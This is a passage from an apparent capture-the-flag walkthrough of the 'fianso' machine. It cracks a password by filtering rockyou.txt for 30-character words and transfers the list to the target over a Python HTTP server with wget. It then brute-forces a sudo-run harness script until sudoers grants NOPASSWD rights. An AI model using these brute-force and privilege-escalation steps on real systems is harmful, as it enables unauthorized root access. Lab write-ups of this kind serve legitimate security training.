 ### 4.2. Cracking Password

Making use of `rockyou.txt` to crack the password, first extract all those with 30-byte characters.

```bash
❯ grep -oP "\b(\w{30})\b" /usr/share/wordlists/rockyou.txt | sudo tee rockyou_30.txt > /dev/null
```

Then I transferred this dictionary (`rockyou_30.txt`) to `sofiane`:

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
sofiane@fianso:/tmp$ wget "http://192.168.0.104/rockyou_30.txt"
wget "http://192.168.0.104/rockyou_30.txt"
--2025-03-06 23:47:32--  http://192.168.0.104/rockyou_30.txt
Connecting to 192.168.0.104:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10354 (10K) [text/plain]
Saving to: ‘rockyou_30.txt’

rockyou_30.txt      100%[===================>]  10.11K  --.-KB/s    in 0s      

2025-03-06 23:47:32 (29.8 MB/s) - ‘rockyou_30.txt’ saved [10354/10354]

sofiane@fianso:/tmp$ 
```

Making use of a bash statement, I tested each password in the `harness` script

```bash
while IFS= read -r pass; do
    echo -e "$pass" | sudo bin/bash /opt/harness
done < rockyou_30.txt
```

I typed the statement in one line in the terminal:

```bash
sofiane@fianso:/tmp$ while IFS= read -r pass; do echo -e "$pass" | sudo /bin/bash /opt/harness; done < rockyou_30.txt
```

Once the `/etc/sudoers` is written.

```bash
sofiane@fianso:/tmp$ sudo -l
sudo -l
Matching Defaults entries for sofiane on fianso:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sofiane may run the following commands on fianso:
    (ALL : ALL) NOPASSWD: /bin/bash /opt/harness
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/beet
```
